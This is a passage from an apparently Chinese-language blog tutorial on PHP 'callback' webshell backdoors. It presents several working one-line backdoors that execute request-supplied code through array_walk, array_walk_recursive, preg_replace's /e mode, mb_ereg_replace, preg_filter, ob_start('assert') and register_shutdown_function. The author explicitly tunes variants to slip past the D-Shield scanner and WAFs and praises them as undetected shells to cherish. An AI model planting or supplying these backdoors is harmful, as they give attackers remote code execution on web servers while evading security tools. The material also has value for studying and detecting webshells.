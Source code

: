array_walk的第二个参数是callable类型，正常情况下它是格式是两个参数的，但在0x03中说了，两个参数的回调后门需要使用php5.4.8后的assert，在5.3就不好用了。但这个回调其实也可以接受三个参数，那就好办了：

enter image description here

php中，可以执行代码的函数：

1.  一个参数：'''assert'''
2.  两个参数：'''assert （php5.4.8+'''）
3.  三个参数：'''preg_replace /e模式'''
三个参数可以用preg_replace。所以我这里构造了一个array_walk + preg_replace的回调后门：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk($arr, $e, '');

如图，这个后门可以在5.3下使用：


但强大的D盾还是有警觉（虽然只是等级2）：

不过呵呵，PHP拥有那么多灵活的函数，稍微改个函数（array_walk_recursive）D盾就查不出来了：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk_recursive($arr, $e, '');

不截图了。

看了以上几个回调后门，发现preg_replace确实好用。但显然很多WAF和顿顿狗狗的早就盯上这个函数了。其实php里不止这个函数可以执行eval的功能，还有几个类似的：

    mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');

另一个：

    echo preg_filter('|.*|e', $_REQUEST['pass'], '');

这两个一句话都是不杀的：

好用的一句话，且用且珍惜呀。

0x05 无回显回调后门

回调后门里，有个特殊的例子：ob_start。

ob_start可以传入一个参数，也就是当缓冲流输出时调用的函数。但由于某些特殊原因（可能与输出流有关），即使有执行结果也不在流里，最后也输出不了，所以这样的一句话没法用菜刀连接：

    ob_start('assert');
    echo $_REQUEST['pass'];
    ob_end_flush();

但如果执行一个url请求，用神器cloudeye还是能够观测到结果的：


即使没输出，实际代码是执行了的。也算作回调后门的一种。

0x06 单参数后门终极奥义

preg_replace、三参数后门虽然好用，但/e模式php5.5以后就废弃了，不知道哪天就会给删了。所以我觉得还是单参数后门，在各个版本都比较好驾驭。 这里给出几个好用不杀的回调后门

    $e = $_REQUEST['e'];
    register_shutdown_function($e, $_REQUEST['pass']);
